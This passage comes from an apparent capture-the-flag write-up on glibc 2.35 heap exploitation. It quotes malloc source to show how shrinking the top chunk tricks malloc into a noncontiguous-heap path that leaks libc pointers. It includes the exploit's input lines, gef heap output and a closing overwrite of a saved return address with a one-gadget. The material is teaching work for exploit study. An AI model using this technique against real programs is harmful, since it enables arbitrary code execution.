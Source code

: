 ```c
		}
	}
```

This is very promising, but we don't have the ability to actually call force sbrk to return a noncontiguous page right?  The answer is no -- but it's actually unnecessary! Contiguity is checked naively -- the old heap end is computed based off the top chunk + top chunk size. 

```c
// https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L2606
old_top = av->top;
old_size = chunksize (old_top);
old_end = (char *) (chunk_at_offset (old_top, old_size));
// ...
// https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L2547
if (brk == old_end && snd_brk == (char *) (MORECORE_FAILURE)) {
// ...
} else {
// handles noncontiguous sbrk
}
```

We don't need to force sbrk to return a noncontiguous page -- just convince malloc that it did do so.  By using our byte swap primitive to shrink the size of the top chunk (from 0x20550 to 0x550) and then making an allocation larger than the new top chunk size (which extends the heap) we end up with the old top chunk in an unsorted bin with two pointers to libc present. 

```python
top_chunk = heap_base + 0x0ab8
r.sendline(f"-3 {top_chunk+2}")
r.sendline(b"-1 -"+b"1"*0x800)
```

```
gef> heap bins
Unsorted Bin for arena 'main_arena' 
-----------------------------------------------------------
unsorted_bin[idx=0, size=any, @0x7ffff7faacf0]: fd=0x555555564ab0, bk=0x555555564ab0
 -> Chunk(addr=0x555555564ab0, size=0x530, flags=PREV_INUSE, fd=0x7ffff7faace0, bk=0x7ffff7faace0)
[+] Found 1 valid chunks in unsorted bin.
```

```
gef> scan heap libc
[+] Searching for addresses in 'heap' that point to 'libc'
[heap]: 0x0000555555564ac0  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
[heap]: 0x0000555555564ac8  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
gef> 
```
## win

With arbitrary write (ish -- its a swap but we could put arb bytes in the stdin buffer if needed) it's basically over.  I chose to replace a saved return address (and rbp, as rbp-0x78 needed to be writable) with a one gadget.

